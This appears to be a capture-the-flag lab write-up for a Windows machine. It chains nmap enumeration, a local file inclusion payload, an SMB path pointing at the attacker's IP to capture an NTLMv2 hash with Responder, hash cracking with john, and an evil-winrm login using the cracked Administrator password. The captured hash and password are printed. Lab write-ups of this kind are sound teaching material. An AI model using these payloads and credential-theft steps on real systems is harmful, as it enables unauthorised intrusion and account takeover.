 # 1. Enumeration

- We will begin by scanning the host for any open ports adn running services with <span style="color:red;">nmap</span>:

```
-p- : This flag scans for all TCP ports ranging from 0-65535
-sV : Attempts to determine the version of the service running on a port
--min-rate : This is used to specify the minimum number of packets Nmap should send per
second; it speeds up the scan as the number goes higher
```

```
nmap -p- --min-rate 1000 -sV 10.129.128.223
```

![img_1.png](img/img_1.png)

- According to the results of the Nmap scan, the machine is using Windows as its operating system. Two ports
were detected as open having Apache web server running on `port 80` along with <span style="color:red;">WinRM</span> on `port 5985` .
---
## <u>Note</u>: 
- <b>Windows Remote Management</b>, or WinRM, is a Windows-native built-in remote management protocol
that basically uses Simple Object Access Protocol to interact with remote computers and servers, as well as
Operating Systems and applications. WinRM allows the user to :
  - Remotely communicate and interface with hosts
  - Execute commands remotely on systems that are not local to you but are network accessible
  - Monitor, manage and configure servers, operating systems and client machines from a remote location
  
- As a pentester, this means if we can find credentials for a user who has remote management privileges, we can potentially get a PowerShell shell on the host

# 2. Website Enumeration
- Going to `10.129.128.223`, the browser returns a message about being unable to find that site. The URL bar is now showing `http://unika.htb`.
The website has redirected the browser to a new URL, and the host doesn't know how to find `unika.htb`.
This webserver is employing name-based Virtual Hosting for serving the requests.
---
## <u>Note</u>
- Name-Based Virtual Hosting is a method for hosting multiple domain names (with separate handling of each name) on a single server.
This allows one server to share its resource, such as memory or processor cycles, without requiring all the services to be used by the same host name.
- The webserver checks the domain name provided in the `Host` header filed of the HTTP request and sends a response according to that.
---

- The `/etc/host` file is used to resolve a hostname into an IP address & thus we will need to add an entry in `/etc/host`
file for this domain to enable the browser to resolve the address for `unika.htb`
```
echo "10.129.128.223 unika.htb" | sudo tee -a /etc/hosts
```

- Going back to our browser, we are now presented with a web designing business landing page:

![img.png](img/img1.png)

# 3. File Inclusion Vulnerability

- We notice a language selection option on the navbar `EN` and changing the option to `FR` takes us to a French version of the website.

![img.png](img/img.png)

- Noticing the URL, we can see that the `french.html` page is being loaded by the `page` parameter, which may potentially be vulnerable to LFI.

- One of the most common files that a penetration tester might attemp to access on a Windows machine to verify LFI is the hosts files,
`WINDOWS\System32\drivers\etc\hosts`.
```
http://unika.htb/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts
```
![img_2.png](img/img_2.png)

# 4. Responder Challenge Capture
- Now that we know this webpage is vulnerable to LFI and it uses `WinRM`, we can try to load a remote file to obtain 
a shell. 
- In the `php.ini` file, `allow_url_include` wrapper is ser to "Off" by default, indicating that PHP does not load remote
HTTP of HTP URLS to prevent RFI attacks. However, even if `allow_url_include` and `allow_url_fopen` are set to "Off", 
PHP will not prevent the loading of SMB URLS.
- In this case, we can misuse this functionality to steal the NTLM hash.
- Now, we can attempt to load an SMB URL, and in that process, we can capture the hashes from the target using `Responder`
- More about NTLM <a href="https://www.crowdstrike.com/cybersecurity-101/ntlm-windows-new-technology-lan-manager/">here</a><br></br>
- With the Responder server ready, we tell the server to include a resource from our SMB server by setting the `page`
parameter as follow:
```
http://unika.htb/?page=//10.10.14.25/somefile
```
- Checking our listening Responder server, we can see a NetNTLMv for the Administrator user:

![img_3.png](img/img_3.png)

- The NetNTLMv2 includes both the challenge (random text) and the encrypted response.
# 5. Hash Cracking

- We can dump the hash into a file and attempt to crack it with `john`:
```
echo "Administrator::DESKTOP-
H3OF232:1122334455667788:7E0A87A2CCB487AD9B76C7B0AEAEE133:0101000000000000005F3214B534D
801F0E8BB688484C96C0000000002000800420044004F00320001001E00570049004E002D004E0048004500
3800440049003400410053004300510004003400570049004E002D004E00480045003800440049003400410
05300430051002E00420044004F0032002E004C004F00430041004C0003001400420044004F0032002E004C
004F00430041004C0005001400420044004F0032002E004C004F00430041004C0007000800005F3214B534D
801060004000200000008003000300000000000000001000000002000000C2FAF941D04DCECC6A7691EA926
30A77E073056DA8C3F356D47C324C6D6D16F0A0010000000000000000000000000000000000009002000630
06900660073002F00310030002E00310030002E00310034002E00320035000000000000000000" >
hash.txt
```

```
john -w=/usr/share/wordlists/rockyou.txt hash.txt
```
![img_4.png](img/img_4.png)

# 6. WinRM

- We'll connect to the WinRM service on the target and try to get a session. We will use `evil-winrm`:
```
evil-winrm -i 10.129.136.91 -u administrator -p badminton
```
![img_5.png](img/img_5.png)

- We can find the flag under `C:\Users\mike\Desktop\flag.txt`.

![img_6.png](img/img_6.png)